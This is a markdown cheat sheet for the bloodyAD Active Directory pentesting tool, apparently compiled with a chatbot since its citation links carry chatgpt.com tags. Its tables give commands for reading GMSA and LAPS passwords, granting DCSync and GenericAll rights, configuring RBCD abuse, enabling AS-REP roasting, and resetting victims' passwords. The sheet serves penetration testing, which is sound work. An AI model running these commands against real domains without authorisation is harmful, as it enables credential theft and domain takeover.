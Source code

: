 |Purpose|Command snippet|
|---|---|
|Dump a single object’s attributes|`bloodyAD ... get object '<DistinguishedName>' --attr attr1,attr2` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|List all users|`bloodyAD ... get children 'DC=corp,DC=local' --type user` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|List all computers|`bloodyAD ... get children 'DC=corp,DC=local' --type computer` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Get group members|`bloodyAD ... get object 'Domain Admins' --attr member` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Dump DNS records|`bloodyAD ... get dnsDump` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Read GMSA password|`bloodyAD ... get object 'gmsaAcct$' --attr msDS-ManagedPassword` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Read LAPS (ms-Mcs-AdmPwd)|`bloodyAD ... get object 'HOSTNAME$' --attr ms-Mcs-AdmPwd` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|

---

## ⚔️ Attack primitives

|Attack|Command snippet|
|---|---|
|Enable **ASREP** roast on a user|`bloodyAD ... add uac targetUser DONT_REQ_PREAUTH` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Remove disable flag from user|`bloodyAD ... remove uac targetUser ACCOUNTDISABLE` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Trigger **DCsync**|`bloodyAD ... add dcsync targetUser` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Give **GenericAll** on object|`bloodyAD ... add genericAll victimObject attackerUser` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Configure **RBCD** (S4U2proxy abuse)|`bloodyAD ... add rbcd TARGET_HOST$ attackerUser` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Kerberoast SPNs|_(collect with impacket’s `GetUserSPNs.py` then roast)_|
|ASREP roast|_(use Rubeus or Impacket’s `GetNPUsers.py` after setting DONT_REQ_PREAUTH)_|

---

## 🛠️ Modification (`add` / `remove` / `set`)

|Change|Command snippet|
|---|---|
|Add a computer to the domain|`bloodyAD ... add computer NewPC$` [github.com](https://github.com/CravateRouge/bloodyAD/wiki/User-Guide?utm_source=chatgpt.com)|
|Add a DNS record|`bloodyAD ... add dnsRecord hostName 192.168.1.50` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Remove a DNS record|`bloodyAD ... remove dnsRecord hostName 192.168.1.50` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Set an attribute value|`bloodyAD ... set object Target$ attributeName -v newValue` [seriotonctf.github.io](https://seriotonctf.github.io/2024/12/01/BloodyAD-Cheatsheet/index.html?utm_source=chatgpt.com)|
|Change a user’s password|`bloodyAD ... set password victimUser NewP@ssw0rd!` [notes.incendium.rocks](https://notes.incendium.rocks/pentesting-notes/windows-pentesting/tools/bloodyad?utm_source=chatgpt.com)|
|Add user to a group|`bloodyAD ... add groupMember 'Group Name' victimUser` [github.com](https://github.com/CravateRouge/bloodyAD/wiki/User-Guide?utm_source=chatgpt.com)|